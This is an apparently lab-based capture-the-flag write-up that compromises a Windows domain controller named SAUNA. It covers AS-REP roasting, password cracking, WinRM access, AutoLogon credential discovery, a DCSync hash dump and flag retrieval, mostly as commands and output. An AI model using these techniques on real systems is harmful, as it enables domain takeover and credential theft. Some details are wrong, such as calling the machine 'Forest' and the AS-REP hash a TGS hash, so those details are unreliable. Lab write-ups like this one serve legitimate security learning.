

# Summary

This penetration test assessed the security of the Forest machine. Initial reconnaissance with a full port scan identified it as a Windows Domain Controller for the EGOTISTICAL-BANK.LOCAL domain. User names were enumerated from the web service on port 80, which were then used to generate a list of potential usernames. A Kerberos pre-authentication vulnerability was exploited for the user fsmith, yielding a crackable TGS hash. The password `Thestrokes23` was successfully recovered.

These credentials provided initial access via WinRM. Further enumeration with WinPEAS revealed stored AutoLogon credentials for the user `svc_loanmgr`. BloodHound analysis showed this account had the `GetChangesAll` privilege, enabling a DCSync attack. The NTDS.dit database was dumped, revealing the Administrator's NTLM hash. This hash was used for a Pass-the-Hash attack, granting administrative access to the Domain Controller and allowing for the retrieval of the final root flag.

## NMAP

A comprehensive port scan was executed against the target 10.129.151.148 using the command `sudo nmap -sC -sV -Pn -O -p 1-65535 10.129.151.148 --open`. The scan was configured to bypass host discovery, scan all TCP ports, perform OS and version detection, and run default scripts, reporting only on open ports. The results of this scan are as follows.


```bash
sudo nmap -sC -sV -Pn -O -p 1-65535 10.129.151.148 --open 
```
The Nmap scan of the target 10.129.151.148 revealed multiple open ports. Port 53 is open for the domain service. Port 80 is open running Microsoft IIS httpd 10.0 with a title of "Egotistical Bank :: Home" and potentially risky TRACE methods enabled. Port 88 is open for Kerberos. Ports 135 and 139 are open for Microsoft RPC and netbios-ssn respectively. Port 389 is open for LDAP associated with the domain EGOTISTICAL-BANK.LOCAL. Port 445 is open for Microsoft-ds. Port 464 is open for kpasswd5. Port 593 is open for RPC over HTTP. Ports 636 and 3269 are tcpwrapped. Port 3268 is open for LDAP. Port 5985 is open for the Microsoft HTTPAPI. Port 9389 is open for .NET Message Framing. Ports 49667, 49674, 49677, and 49698 are open for msrpc. Port 49673 is open for ncacn_http.

```output
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-23 07:24:54Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
```

The NetExec SMB scan of the target 10.129.151.148 on port 445 identified the hostname as SAUNA. The machine is running Windows 10 or Server 2019 Build 17763 x64 and is part of the domain EGOTISTICAL-BANK.LOCAL. SMB signing is required and SMBv1 is not supported.

```bash
 nxc smb 10.129.151.148                                 
SMB         10.129.151.148  445    SAUNA            [*] Windows 10 / Server 2019 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False) 
                                                           
```

The local hosts file was configured to resolve the hostname SAUNA and the domain EGOTISTICAL-BANK.LOCAL to the IP address 10.129.151.148.
```bash
cat /etc/hosts 
10.129.151.148  SAUNA     EGOTISTICAL-BANK.LOCAL
```

The web service on port 80 contained a page listing the following names: Fergus Smith, Shaun Coins, Hugo Bear, Bowie Taylor, Sophie Driver, and Steven Kerb.


The tool username-anarchy was used to generate a list of potential usernames from the provided list of names.
```bash
./username-anarchy --input-file users.txt

```

A list of potential usernames was generated for the identified users.
```bash
ergus
fergussmith
fergus.smith
fergussm
fergsmit
ferguss
f.smith
fsmith
sfergus
s.fergus
smithf
smith
smith.f
smith.fergus
fs
shaun
shauncoins
shaun.coins
shauncoi
shaucoin
shaunc
s.coins
scoins
cshaun
c.shaun
coinss

```

The Kerberos pre-authentication process was queried using GetNPUsers.py for the domain egotistical-bank.local. A user list from the file users.txt was supplied, and the Domain Controller was specified with the IP 10.129.53.151. The resulting Ticket Granting Service hashes were saved to the file userhash.txt.
```bash
GetNPUsers.py egotistical-bank.local/ -usersfile users.txt -dc-ip 10.129.53.151 -outputfile userhash.txt
```

A Kerberos pre-authentication vulnerability was successfully exploited for the user fsmith. The tool retrieved a Ticket Granting Service hash for the account fsmith@EGOTISTICAL-BANK.LOCAL, which was saved for offline cracking.
```bash
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:994205d2777ddc974bd356d9bd480764$0daa10c2e2c3607076ad41a643a07b4f9ad489e53d4534787fc89991ea690a684df93db76ac11025adb33d4a827e0b6c130a03a88fcb5690269c09034b2a26683e460fabb5c09bf8545e4979f813ea25c29c695a7d77953847771d9d6531f5093b73a95f4877b71d0be8d9007898e6572c6b81d76b53e055ac756e1eb29f6389fd46b338b3355f9e24b42487135e6b80c56cf9ea5e44d4fbde1d72e90d2175f485328303d99c97b40c5adcfdb2dd81987672f65612cb4bb85cacd9ebebccf890a4741d884c866d445b135ab6ae26f9577524fca2462d9a3a53a361a8e934ba241ebb57e19d6b05a695c45e5be48f0911ac2e3186d18d1440d5f45c297a07da2a

```

The password for the user fsmith was successfully cracked using John the Ripper with the rockyou.txt wordlist. The cracked password is Thestrokes23.

```bash
 john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)     
1g 0:00:01:47 DONE (2025-10-22 21:54) 0.009269g/s 97691p/s 97691c/s 97691C/s Thing..Thehunter22
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Authentication was successfully performed against the SMB service at 10.129.53.151 using the credentials fsmith:Thestrokes23. The login for the domain user EGOTISTICAL-BANK.LOCAL\fsmith was confirmed.

```bash
 nxc smb  10.129.53.151 -u 'fsmith' -p 'Thestrokes23'       

SMB         10.129.53.151   445    SAUNA            [*] Windows 10 / Server 2019 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False) 
SMB         10.129.53.151   445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23 
```
A successful WinRM connection was established to the target 10.129.53.151 using the credentials fsmith:Thestrokes23. The user EGOTISTICAL-BANK.LOCAL\fsmith has administrative access, as indicated by the Pwn3d status

```bash
nxc winrm  10.129.53.151 -u 'fsmith' -p 'Thestrokes23' 
WINRM       10.129.53.151   5985   SAUNA            [*] Windows 10 / Server 2019 Build 17763 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL)
WINRM       10.129.53.151   5985   SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23 (Pwn3d!)                                 
```

An Evil-WinRM session was initiated to the target 10.129.53.151 using the credentials fsmith:Thestrokes23, establishing a remote shell on the system.
```bash
evil-winrm -i 10.129.53.151 -u fsmith -p Thestrokes23                    
```

The user flag was retrieved from the file located at C:\Users\FSmith\desktop\user.txt. The flag is cc57be8cf1e3b440f5d4a1fc7fe3907f
```bash
*Evil-WinRM* PS C:\Users\FSmith\desktop> cat user.txt
cc57be8cf1e3b440f5d4a1fc7fe3907f
```
The WinPEAS enumeration script was executed from the C:\temp directory on the target machine
```bash
*Evil-WinRM* PS C:\temp> ./winPEASx64.exe
```

The WinPEAS script discovered AutoLogon credentials stored on the system. The credentials are for the user svc_loanmanager in the domain EGOTISTICALBANK with the password Moneymakestheworldgoround!.

```bash
ÉÍÍÍÍÍÍÍÍÍ͹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!
```

BloodHound data was collected from the LDAP service at 10.129.53.151 using NetExec. The collection was authenticated with the credentials fsmith:Thestrokes23 and utilized the target itself as the DNS server.

```bash
netexec ldap 10.129.53.151 -u 'fsmith' -p 'Thestrokes23' --bloodhound --dns-server 10.129.53.151 -c ALL --dns-tcp
```

BloodHound analysis revealed that the user SVC_LOANMGR@EGOTISTICAL-BANK.LOCAL holds the GetChangesAll and GetChanges privileges over the domain EGOTISTICAL-BANK.LOCAL.



The secretsdump.py script was executed using the credentials EGOTISTICALBANK.LOCAL/svc_loanmgr:Moneymakestheworldgoround! to target the Domain Controller at 10.129.53.151. This operation successfully dumped the NTDS.dit database, extracting NTLM password hashes for all domain users.

```bash
secretsdump.py'EGOTISTICALBANK.LOCAL/svc_loanmgr:Moneymakestheworldgoround!@10.129.53.151' 

```

The NTLM password hash for the Administrator account was successfully extracted. The Administrator hash is aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e.


```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:ed0c431dc4f70e164526f2b79223f262:::
[*] Kerberos keys grabbed


```

The root flag was retrieved from the file located at C:\Users\Administrator\desktop\root.txt. The flag is acbc2e96f96f7e24a3a4793b67688131.

```bash
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
acbc2e96f96f7e24a3a4793b67688131
```
